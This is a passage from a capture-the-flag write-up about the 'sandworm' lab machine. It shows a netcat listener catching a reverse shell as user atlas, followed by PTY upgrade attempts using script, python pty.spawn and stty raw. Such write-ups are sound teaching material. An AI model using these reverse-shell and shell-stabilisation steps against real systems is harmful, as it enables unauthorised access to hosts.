 
With `nc` listening, I'll submit these to the site and get a shell as
atlas:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.218 49352
    bash: cannot set terminal process group (-1): Inappropriate ioctl for device
    bash: no job control in this shell
    /usr/local/sbin/lesspipe: 1: dirname: not found
    atlas@sandworm:/var/www.md/SSA$ id
    uid=1000(atlas) gid=1000(atlas) groups=1000(atlas)



## Shell as silentobserver

### Jail

#### Shell Upgrade

The first thing I try to do when I get a shell is upgrade it to a full
PTY to get things like up arrow and delete. Typically I do that with
`script` and `stty` using the trick I break down in detail [in this
video](https://www.youtube.com/watch?v=DqE6DxqJg8Q). Unfortunately, when
I run `script`, it fails:



    atlas@sandworm:/var/www.md/SSA$ script /dev/null -c /bin/bash
    Could not find command-not-found database. Run 'sudo apt update' to populate it.
    script: command not found



`script` is one method to get a pseudo terminal assigned to this
session. Without `script`, I can try Python:



    atlas@sandworm:/var/www.md/SSA$ python -c 'import pty; pty.spawn("/bin/bash")'
    Could not find command-not-found database. Run 'sudo apt update' to populate it.
    python: command not found



It can't find `python` either. `python3` does run, but with an error as
well:



    atlas@sandworm:/var/www.md/SSA$ python3 -c 'import pty; pty.spawn("/bin/bash")'
    /usr/local/sbin/lesspipe: 1: dirname: not found



Still, it worked enough that the rest of the trick works:



    atlas@sandworm:/var/www.md/SSA$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    Could not find command-not-found database. Run 'sudo apt update' to populate it.
    reset: command not found
    atlas@sandworm:/var/www.md/SSA$

